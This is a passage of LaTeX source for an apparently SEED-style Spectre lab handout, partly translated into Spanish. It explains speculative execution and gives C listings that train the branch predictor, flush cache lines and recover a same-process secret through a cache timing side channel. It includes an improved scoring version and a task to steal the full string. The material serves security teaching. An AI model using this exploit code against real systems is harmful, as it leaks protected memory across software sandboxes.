4  }
\end{lstlisting}
 

The above statement about the code example is true when looking from outside of the CPU.
However, it is not completely true if we get into the CPU, and look at the execution sequence
at the microarchitectural level. If we do that, we will find out that
Line 3 may be successfully executed even though the value of \texttt{x} is 
larger than \texttt{size}. This is due to an important optimization technique adopted by
modern CPUs. It is called out-of-order execution.


Out-of-order execution is an optimization technique that allows CPU to maximize the utilization of
all its execution units. Instead of processing instructions
strictly in a sequential order, a CPU executes them in parallel
as soon as all required resources are available.
While the execution unit of the current operation is occupied, other
execution units can run ahead.

In the code example above, at the microarchitectural level, Line 2 involves
two operations: load the value of \texttt{size} from the memory, 
and compare the value with \texttt{x}. If \texttt{size} is not in the CPU
caches, it may take hundreds of CPU clock cycles before that value is read.
Instead of sitting idle, modern CPUs try to predict the outcome 
of the comparison, and speculatively execute the branches based on
the estimation. Since such execution starts before the comparison even finishes,
the execution is called out-of-order execution. 
Before doing the out-of-order execution,  
the CPU stores its current state and value of registers. 
When the value of \texttt{size} finally arrives, 
the CPU will check the actual outcome. If the prediction is true, the speculatively
performed execution is committed and there is a significant performance gain. If the prediction
is wrong, the CPU will revert back to its saved state, 
so all the results produced by the out-of-order execution will be discarded like
it has never happened.  That is why from outside we see that Line 3 was
never executed.
Figure~\ref{spectre:fig:spectre} illustrates the out-of-order execution
caused by Line 2 of the sample code.


\begin{figure}[htb]
\centering

\includegraphics[width=0.75\textwidth]{\spectreFigs/spectre.pdf}
\caption{Speculative execution (out-of-order execution)}
\label{spectre:fig:spectre}
\end{figure}


Intel and several CPU makers made a severe mistake in the design of the out-of-order execution.
They wipe out the effects of the out-of-order execution on registers and memory
if such an execution is not supposed to happen, so the execution does not lead to
any visible effect. However, they forgot one thing, the effect on CPU caches.
During the out-of-order execution, the referenced memory is fetched into a register and is
also stored in the cache. If the results of the out-of-order execution have to be discarded,
the caching caused by the execution should also be discarded. Unfortunately, this is
not the case in most CPUs. Therefore, it creates an observable effect.
Using the side-channel technique described in Tasks 1 and 2, we
can observe such an effect. The Spectre attack cleverly uses this
observable effect to find out protected secret values.



%\paragraph{More details on speculative execution?} To understand 
%the benefit of speculative execution, Let us see some data. 
%When a micro-processor reads from the main memory i.e. RAM, the read
%timings are about 60 nanoseconds (60 billionths of a second). Even though
%it appears to be lightning fast to humans, to
%micro-processor it is a really long time. A micro-processors can have cycle times as short as
%2 nanoseconds. This cycle time is the time between one RAM access to the time when another
%access can be started. The cycle time are different than clock cycle which is number of cycles
%per second. So, to a microprocessor with cycle time with 2 nanosecond, 60 nanoseconds of read
%time is really long. The L2 cache are generally at least twice as fast as RAM while L1 cache
%are built directly in the micro-processor so the read is done at the micro-processor speed.


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{The Experiment}

In this task, we use an experiment to observe the effect caused by
an out-of-order execution. The code used in this experiment is shown below.
Some of the functions used in the code
is the same as that in the previous tasks, so they will not be repeated. 


\begin{lstlisting}[caption=\texttt{SpectreExperiment.c}, label=spectre:list:outoforder]
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

int size = 10;
uint8_t array[256*4096];
uint8_t temp = 0;

void victim(size_t x) 
{
  if (x < size) {                          (*@\ding{192}@*)
     temp = array[x * 4096 + DELTA];       (*@\ding{193}@*)
  }
}

int main() 
{
  int i;

  // FLUSH the probing array
  flushSideChannel();

  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {               (*@\ding{194}@*)
      victim(i);                           (*@\ding{195}@*)
  }

  // Exploit the out-of-order execution 
  _mm_clflush(&size);                      (*@\ding{80}@*)
  for (i = 0; i < 256; i++)  
      _mm_clflush(&array[i*4096 + DELTA]);
  victim(97);                              (*@\ding{196}@*)

  // RELOAD the probing array
  reloadSideChannel();
  return (0);
}
\end{lstlisting}


For CPUs to perform a speculative execution, they should be able to
predict the outcome of the if condition.  CPUs keep a record of the branches taken in the past,
and then use these past results to predict what branch should be taken in a 
speculative execution. 
Therefore, if we would like a particular branch to be taken in 
a speculative execution, we should train the CPU, so our selected branch 
can become the prediction result. The training is done 
in the \texttt{for} loop starting from Line \ding{194}. 
Inside the loop, we invoke \texttt{victim()} with a small argument (from 0 to 9). These values are
less than the value \texttt{size}, so the true-branch of the if-condition in Line \ding{192} is
always taken. This is the training phase, which essentially trains the CPU to expect the 
if-condition to come out to be true. 


Once the CPU is trained, we pass a larger value (\texttt{97})
to the \texttt{victim()} function (Line \ding{196}). This value is larger than \texttt{size},
so the false-branch of the if-condition inside \texttt{victim()} will be taken in
the actual execution, not the true-branch. However, we have flushed the variable \texttt{size}
from the memory, so getting its value from the memory may take a while. This is when the CPU
will make a prediction, and start speculative execution. 



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Task 3} 


Please compile the \texttt{SpectreExperiment.c} program 
shown in Listing~\ref{spectre:list:outoforder} (see Section~\ref{sidechannel:sec:compilation}
for the compilation instruction); 
run the program and describe your observations. 
There may be some noise in the side channel due to extra things cached by the
CPU, we will reduce the noise later, but for now you can execute the task multiple times to
observe the effects. Please observe whether Line \ding{193} is executed 
or not when \texttt{97} is fed into \texttt{victim()}.  
Please also do the followings:

\begin{itemize}
\item Comment out the line marked with \ding{80} and execute again. Explain your
observation. After you are done with this experiment, 
uncomment it, so the subsequent tasks are not affected.

\item Replace Line \ding{195} with \texttt{victim(i + 20)}; run the code again and
explain your observation. 
%Because \texttt{i + 20} is always larger than the value 
%of \texttt{size}, the false-branch of the if-condition in Line \ding{192} will always be 
%executed. Basically, we are training the CPU to go to the false-branch.
%That should affect the out-of-order execution when 
%\texttt{victim()} is called at Line \ding{195}.   
\end{itemize}
 



% *******************************************
% SECTION
% ******************************************* 
\section{Task 4: The Spectre Attack}


As we have seen from the previous task, we can get CPUs to execute a true-branch of an
if statement, even though the condition is false. If such an out-of-order execution does not
cause any visible effect, it is not a problem. However, most CPUs with this feature do not
clean the cache, so some traces of the out-of-order execution is left behind. The 
Spectre attack uses these traces to steal protected secrets. 


These secrets can be data in another process or data in the same process. 
If the secret data is in another process, the process isolation at the hardware level prevents 
a process from stealing data from another process. If the data is in the same process, 
the protection is usually done via software, such as sandbox mechanisms.  
The Spectre attack can be launched against both types of secret. However, 
stealing data from another process is much harder than stealing data from the same process. For
the sake of simplicity, this lab only focuses on stealing data from the same process. 

When web pages from different servers are opened inside a browser, they are often opened in the
same process. The sandbox implemented inside the browser will provide an isolated environment
for these pages, so one page will not be able to access another page's data. 
Most software protections rely on condition checks to decide whether an access should be
granted or not. With the Spectre attack, we can get CPUs to execute (out-of-order) 
a protected code branch even if the condition checks fails, essentially defeating
the access check.


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{The Setup for the Experiment} 


\begin{figure}[htb]
\centering

\includegraphics[width= 0.7\textwidth]{\spectreFigs/buffer_new.pdf}
\caption{Experiment setup: the buffer and the protected secret}
\label{spectre:fig:buffer}
\end{figure}

Figure~\ref{spectre:fig:buffer} illustrates the setup for the experiment.
In this setup, there are two types of regions: restricted region and non-restricted region.
The restriction is achieved via an if-condition implemented in a sandbox function
described below. The sandbox function returns the value of \texttt{buffer[x]} for an \texttt{x}
value provided by users, only if \texttt{x} is between the buffer's
lower and upper bounds.
Therefore, this sandbox function
will never return anything in the restricted area to users.


\begin{lstlisting}
unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else {
     return 0;
  }
}
\end{lstlisting}

There is a secret value in the restricted area (either above the buffer
or below it), and the secret's address is known to the attacker, but
the attacker cannot directly access the memory holding the secret value.
The only way to access the
secret is through the above sandbox function. From the previous section, we have learned that
although the true-branch will never be executed if \texttt{x} is larger than the buffer size,
at microarchitectural level, it can be executed and some traces can be left behind
when the execution is reverted.


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{The Program Used in the Experiment}


The code for the basic Spectre attack is shown below. In this code, there is a
secret defined in Line \ding{192}. Assume that we cannot directly
access the \texttt{secret}, \texttt{bound\_lower}, or 
\texttt{bound\_upper} variables (we do assume that we
can flush the two bound variables from the cache). 
Our goal is to print out the secret
using the Spectre attack. The code below only steals the first byte of the secret. Students can
extend it to print out more bytes. 


\begin{lstlisting}[caption=\texttt{SpectreAttack.c}, label=spectre:list:spectreattack]
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

unsigned int bound_lower = 0;
unsigned int bound_upper = 9;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};
char    *secret    = "Some Secret Value";     (*@\ding{192}@*)
uint8_t array[256*4096];

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x <= bound_upper && x >= bound_lower) {
     return buffer[x];
  } else { return 0; }
}

void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;

  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) {
      restrictedAccess(i);
  }

  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {   }

  s = restrictedAccess(index_beyond);      (*@\ding{193}@*)
  array[s*4096 + DELTA] += 88;             (*@\ding{194}@*)         
}

int main() {
  flushSideChannel();
  size_t index_beyond = (size_t)(secret - (char*)buffer);  (*@\ding{195}@*)
  printf("secret: %p \n", secret);
  printf("buffer: %p \n", buffer);
  printf("index of secret (out of bound): %ld \n", index_beyond);
  spectreAttack(index_beyond);
  reloadSideChannel();
  return (0);
}
\end{lstlisting}


Most of the code is the same as that in Listing~\ref{spectre:list:outoforder}, so
we will not repeat their explanation here. The most important part is 
in Lines \ding{193}, \ding{194}, and \ding{195}. Line \ding{195}
calculates the offset of the secret from the beginning of the buffer~(we assume that 
the address of the secret is known to the attacker; in real attacks, there are many ways for 
attackers to figure out the address, including guessing).
The offset is definitely beyond the scope of the buffer, so
it is larger than the upper bound of the buffer or smaller than the 
lower bound (i.e., a negative number). The offset
is fed into the \texttt{restrictedAccess()} function.
Since we have trained the CPU to take the true-branch inside
\texttt{restrictedAccess()}, the CPU will return \texttt{buffer[index\_beyond]}, which contains
the value of the secret, in the out-of-order execution. 
The secret value then causes its corresponding element in \texttt{array[]} to
be loaded into cache. All these steps will eventually be reverted, so 
from the outside, only zero is returned from \texttt{restrictedAccess()}, not the value of the secret.
However, the cache is not cleaned, and \texttt{array[s*4096 + DELTA]} is still kept in
the cache. Now, we just need to use the side-channel technique to figure out which element of the
\texttt{array[]} is in the cache.  


\paragraph{The Task.} Please compile and execute 
\texttt{SpectreAttack.c}. Describe your observation and note whether you are able to steal the
secret value. If there is a lot of noise in the side channel, you may not get consistent results 
every time. To overcome this,
you should execute the program multiple times and see whether you can get the secret value. 




% *******************************************
% SECTION
% ******************************************* 
\section{Task 5: Improve the Attack Accuracy}


In the previous tasks, it may be observed that the results do have some noise and the results
are not always accurate. This is because CPU sometimes load extra values in cache expecting
that it might be used at some later point, or the threshold is not very accurate. 
This noise in cache can affect the results of our
attack. We need to perform the attack multiple times; instead of doing it manually,
we can use the following code to perform the task automatically.

We basically use a statistical technique.
The idea is to create a score array of size 256, one element for each possible
secret value. We then run our attack for multiple times. Each time, if our
attack program says that \texttt{k} is the secret (this result may be
false), we add \texttt{1} to \texttt{scores[k]}.  After running the attack for many
times, we use the value \texttt{k} with
the highest score as our final estimation of the secret.  This will produce
a much reliable estimation than the one based on a single run. The revised
code is shown in the following.


%One reason for the noise was the way we
%probe the array to read from the side channel. Till now, we were reading the array
%sequentially. To increase the performance, the CPU loads a lot of values from the $array$ into
%the cache. To prevent this, we use the code in line \ding{192}. The code simply assigns a value
%between 0 \& 255 to $random\_i$ and the value is not repeated. Since, the value is randomly
%selected the CPU does not load the extra values into the cache reducing the noise. 


\begin{lstlisting}[caption=\texttt{SpectreAttackImproved.c}]
static int scores[256];

void reloadSideChannelImproved()
{
  ......
  for (i = 0; i < 256; i++) {
     ......
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}

void spectreAttack(size_t index_beyond)
{
  ... omitted: same as that in SpectreAttack.c ...
}

int main() {
  int i;
  uint8_t s;
  size_t  index_beyond = (size_t)(secret - (char*)buffer);

  flushSideChannel();
  for(i=0;i<256; i++) scores[i]=0;

  for (i = 0; i < 1000; i++) {
    printf("*****\n");                 (*@\ding{192}@*)
    spectreAttack(index_beyond);
    usleep(10);                        (*@\ding{193}@*)
    reloadSideChannelImproved();
  }

  int max = 0;                     
  for (i = 0; i < 256; i++){
   if(scores[max] < scores[i])
     max = i;
  }

  printf("Reading secret value at index %ld\n", index_beyond);
  printf("The  secret value is %d(%c)\n", max, max);
  printf("The number of hits is %d\n", scores[max]);
  return (0);
}
\end{lstlisting}

\paragraph{Your tasks.} Please compile and run \texttt{SpectreAttackImproved.c},
and do the following tasks:

\begin{itemize}
  \item You may observe that when running the code above, 
        the one with the highest score is very likely to be 
        \texttt{scores[0]}. Please figure out why, and fix the code above,
        so the actual secret value (which is not zero) will be printed out. 
	
  \item Line~\ding{192} seems useless, but from our experience on SEED Ubuntu 20.04, without this line,
        the attack will not work. On the SEED Ubuntu 16.04 VM, there is no need for this line. 
	We have not figured out the exact reason yet, so if you can, your instructor will
	likely give you bonus points. 
	Please run the program with and without this line, and describe your observations. 

  \item Line~\ding{193} causes the program to sleep for 10 microseconds. How long the program
        sleeps does affect the success rate of the attack. Please try several other values,
	and describe your observations. 
\end{itemize}
 



% *******************************************
% SECTION
% ******************************************* 
\section{Task 6: Steal the Entire Secret String}

In the previous task, we  just read the first character of the \texttt{secret}
string. In this task, we need to print out the entire string using the 
Spectre attack. Please write your own code or extend the code in Task 5; include your
execution results in the report.


% *******************************************
% SECTION
% ******************************************* 
\section{Informe del Laboratorio}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% *******************************************
% SECTION
% *******************************************
\section*{Agradecimientos}

Este documento ha sido traducido al Español por Facundo Fontana




%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\bibliographystyle{plain}
\def\baselinestretch{1}
\bibliography{BibMeltdownSpectre}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\end{document}


